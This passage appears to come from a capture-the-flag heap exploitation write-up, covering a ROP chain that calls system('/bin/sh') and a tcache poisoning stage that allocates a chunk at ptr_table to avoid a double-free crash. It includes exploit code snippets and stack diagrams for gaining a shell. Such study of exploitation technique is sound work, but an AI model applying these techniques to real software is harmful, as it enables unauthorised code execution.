 ```
Stack before return:
[saved RBP] [return address] [...]

Stack after ROP chain:
[0x0000]    [pop rdi]        [binsh_addr]  [ret]  [system]
            ^
            Return executes here

Execution flow:
1. Return -> pop rdi; ret
2. Pop binsh_addr into RDI register
3. ret -> alignment gadget
4. ret -> system()
5. system(RDI) = system("/bin/sh") -> SHELL!
```

### Stage 6: Clear ptr_table

**Goal:** Prevent double-free crash in exit handler.

The exit handler loops through `ptr_table` and frees all non-NULL pointers. If any were already freed, we get a double-free crash.

**Solution:** Use tcache poisoning to allocate a chunk AT `ptr_table` itself, then write zeros to clear all entries.

#### Step 1: Allocate Large Chunks

```python
chunk_L = create(0x200)
chunk_M = create(0x200)
chunk_N = create(0x100)  # Guard chunk (prevents consolidation)
```

#### Step 2: Poison Tcache to ptr_table

```python
delete(chunk_L)
delete(chunk_M)

ptr_table_addr = elf_base + 0x4060
protected_ptr_table = ptr_table_addr ^ ((heap_base + 0x1000) >> 12)

write(chunk_M, 0, p64(protected_ptr_table))
```

#### Step 3: Allocate at ptr_table

```python
chunk_O = create(0x200)  # Gets chunk_M back
chunk_P = create(0x200)  # Gets chunk AT ptr_table!
```

Now `ptr_table[chunk_P]` points to the beginning of `ptr_table` itself.
